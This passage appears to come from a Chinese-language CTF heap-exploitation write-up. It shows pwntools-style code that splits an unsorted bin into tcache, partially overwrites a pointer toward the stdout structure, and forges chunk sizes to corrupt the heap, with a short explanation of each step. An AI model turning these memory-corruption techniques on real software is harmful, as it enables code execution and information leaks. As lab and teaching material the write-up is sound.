 ‍

```plain
add(0x70,'a')#let the fd pointer of unsorted bin local tcache bin

    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct
```

申请不同于0x100大小的堆块来分割unsortedbin

[![](assets/1700186924-57a7abd74b89723c0318a2e9a206cf75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162927-415b31b8-845a-1.png)

[![](assets/1700186924-c8ffd5feab285756e33e1c022c16edcd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162931-4393a3ac-845a-1.png)

‍

```plain
payload=p64(0xdeadbeef)*18+p64(0)+p64(0x180)
    add(0x100,payload)#tamper size of unsorted bin
```

原chunk1剩余的部分杯篡改为0x180大小

我们先前对chunk4的布置，伪造的prev\_size和size
